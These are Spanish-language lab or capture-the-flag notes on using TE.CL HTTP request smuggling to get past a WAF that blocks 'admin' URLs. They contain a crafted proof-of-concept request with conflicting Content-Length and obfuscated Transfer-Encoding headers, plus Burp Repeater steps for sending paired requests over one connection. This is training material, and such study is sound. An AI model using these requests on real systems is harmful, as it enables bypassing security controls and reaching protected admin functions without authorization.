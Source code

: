 >[!note]
>**_Explote HTTP Smuggling para evitar el WAF y acceder al portal de administración._**

>[!note2]
>WAF funciona simplemente bloqueando todas las solicitudes que contienen la palabra clave `admin` en la URL.

vamos a identificar la vulnerabilidad **TE.CL** con una simple PoC en la raiz de la pagina:

Tenemos las siguientes 2 peticiones que pestañas diferentes:

**_PESTAÑA 1_**

Esta peticion es la que realiza el ataque:

```http
POST / HTTP/1.1
Host: 104.248.174.109:32256
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: xchunked

5
HELLO
0
```

**_PESTAÑA 2_**

Esta peticion es laque comprueba:

```http
GET / HTTP/1.1
Host: 104.248.174.109:32256
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

ahora en el repeater damos click derecho en cualquier peticion y damos la siguienet opcion:

![[Pasted image 20230516151030.png]]

damos un nombre a l grupo y seleccionamos las pestañas:

![[Pasted image 20230516151110.png]]

ahora antes de enviar seleccionamos lo siguiente:

![[Pasted image 20230516151152.png]]

esto enviara a traves del mismo canal TCP (Misma conexion)
